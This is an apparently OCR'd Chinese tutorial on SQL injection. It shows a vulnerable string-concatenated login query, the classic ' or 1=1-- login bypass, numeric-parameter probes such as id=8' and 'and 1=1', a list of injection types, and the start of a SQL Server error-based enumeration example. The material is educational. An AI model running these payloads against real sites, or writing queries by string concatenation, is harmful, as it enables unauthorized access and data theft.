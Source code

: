 # sql注入
所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。

有如下sql查询语句
```sql
Select * from user where username='"+username+"' and password ='"+password+"'
```

如果我设置username='or 1=1--
```sql
Select * from user where username='' or 1=1 --and password =''
```

## 注入漏洞分类
### 数字型注入
```sql
select* from table where Id=1
```
正确的url
URL httpxxxxxxxx.pho?id=8
错误1:出错
httpxxxxxxxx.pho?id=8'
错误2:可正确执行
httpxxxxxxxx.pho?id=8 and 1=1
错误3:可正确执行但是没结果
httpxxxxxxxx.pho?id=8 and 1=2


### 字符型注入
如上面的demo

## 常见sql注入分类
post注入         
cookie注入             
数据库延时注入：利用数据库的延时性特征              
搜索注入           
base64注入:注入字符串经过base64加密            


## 常见的数据库注入

## 1.sqlserver
### 一、利用错误消息提取信息
#### 1.1 枚举当前表及列
执行
```sql
select * from users where username='root' and password='root' having 1=1 --'
```
